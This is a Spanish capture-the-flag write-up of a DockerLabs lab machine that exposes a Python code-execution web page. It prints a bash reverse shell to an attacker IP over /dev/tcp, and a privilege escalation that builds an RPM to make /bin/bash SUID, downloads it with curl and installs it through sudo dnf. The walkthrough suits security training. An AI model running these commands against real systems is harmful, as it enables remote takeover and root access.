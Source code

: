 # Fase 1- Tanteo
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/be42c096-dd8d-4f57-ac7a-2af939ef4385)
En esta fase inicial, realizamos un escaneo de puertos para identificar los servicios disponibles en la máquina objetivo. Utilizamos la herramienta Nmap con una serie de opciones para obtener información detallada y realizar un análisis exhaustivo de los puertos abiertos.

### Comando Nmap utilizado:

`sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`

### Detalles del Comando:

- `sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo`
- `-p-`: Escaneo de todos los puertos.
- `--open`: Muestra solo puertos abiertos.
- `-sS`: Escaneo SYN para determinar el estado de los puertos.
- `-sC`: Activa detección de versiones y vulnerabilidades.
- `-sV`: Escaneo de versiones de servicios.
- `--min-rate 5000`: Velocidad mínima de escaneo.
- `-vvv`: Verbosidad muy alta para información detallada.
- `-n`: Desactiva la resolución de DNS.
- `-Pn`: Ignora la detección de hosts en línea.
- `192.168.52.139`: IP de la máquina objetivo.
- `-oN Escaneo`: Guarda resultados en archivo "Escaneo".

### Resultados:

#### Puertos Abiertos:

1. **5000/tcp (UPNP):** Ns
### Puerto 5000

Al identificar que el puerto 5000 estaba abierto durante el escaneo, vi que tenia un texto que decía
`GetRequest: 
`10   │ |     HTTP/1.1 200 OK
` 11   │ |     Server: Werkzeug/3.0.2 Python/3.12.2`
 Entonces deduje que al introducir la ip de la maquina seguida del puerto 5000, nos debería de dar como resultado una pagina web.
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/0e1c6a52-d939-4599-9ba7-627667616b5a)
 Y tuve razón, es una pagina que nos permite practicar Python.
# Fase 2- Exploración

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/9d19cda9-3060-4ef4-8a59-787be8310db8)
Vemos que al introducir un `print("hola mundo")` nos da directamente el resultado, por lo que podemos deducir que se esta ejecutando codigo directamente. Esto es potencialmente peligroso si podemos importar la librería os.
# Fase 3- Explotación

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/6291bcc6-cab8-4e61-b78c-20986827db64)
Vemos que al ejecutar el comando:
```
import os

os.system("ls")
```
nos devuelve los ficheros que tiene el directorio, por lo que si, se puede confirmar que el codigo se ejecuta directamente en la maquina.

#### Reverse Shell
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/2cd68956-f016-46be-8da7-b9f28f1d856a)
nos dirigimos a la pagina https://www.revshells.com/ para conseguir una revershell en bash, para ejecutarla en la maquina.

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/b88d32be-f181-4ce2-830f-555f90ce754b)
Mandamos la revershell con Python hecha en bash:
```
import os

os.system("bash -c 'bash -i >& /dev/tcp/192.168.52.143/443 0>&1'")
```

![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/3c92f181-a322-425d-9374-e76a63dc419a)
Y estamos dentro!

# Fase 4- Privilegios
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/a2468aa2-33d6-45a4-9ed1-bf01e63532eb)
somos el usuario primpi, y al hacer el comando `sudo -l` vemos que tenemos permiso de ejecución del binario `/usr/bin/dnf`.

#### Gtfobins
![image](https://github.com/haw441kings/DockerLabsWriteUps/assets/136659799/4dbfa334-96b1-4161-b462-02e0e2a1363b)
En nuestra máquina atacante crearemos un archivo **.rmp** malicioso. Con el comando que nos interese ejecutar como root.

```shell
TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
```

Lo transferiremos a la máquina víctima, por ejemplo con un servidor con python en la máquina atacante:

```shell
sudo python3 -m http.server 80
```

Y lo descargamos en la máquina víctima:

```shell
curl -O 192.168.110.128/x-1.0-1.noarch.rpm
```

Instalamos el paquete malicioso que hemos creado con **dnf**:

```shell
sudo -u root /usr/bin/dnf install -y x-1.0-1.noarch.rpm
```

Al instalarlo, hemos cambiado la bash a **SUID**. Como podemos ejecutarla como root:

```shell
bash -p
whoami
-----------------
root
```

Y maquina finalizada con privilegios Maximo.
